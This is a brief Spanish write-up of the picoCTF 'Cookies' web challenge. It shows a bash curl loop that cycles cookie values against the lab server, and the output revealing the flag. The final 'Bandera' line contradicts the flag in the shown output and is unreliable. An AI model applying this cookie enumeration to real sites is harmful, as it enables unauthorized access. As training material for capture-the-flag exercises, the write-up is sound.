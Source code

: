 # Cookies
## Objetivo
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:29649/](http://mercury.picoctf.net:29649/)

## Solución

Se corre el siguiente codigo en bash...
```bash
#!/bin/bash
for i in {0..100}; do
	curl -s --cookie "name=$i" http://mercury.picoctf.net:29649/check;
done | grep picoCTF
```
Para obtener la bandera:

```bash
hone@Unidad03:/tmp$ bash code 
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}</code></p>
```

Bandera: *picoCTF{r3j3ct_th3_du4l1ty_8f878508}*
## Referencias
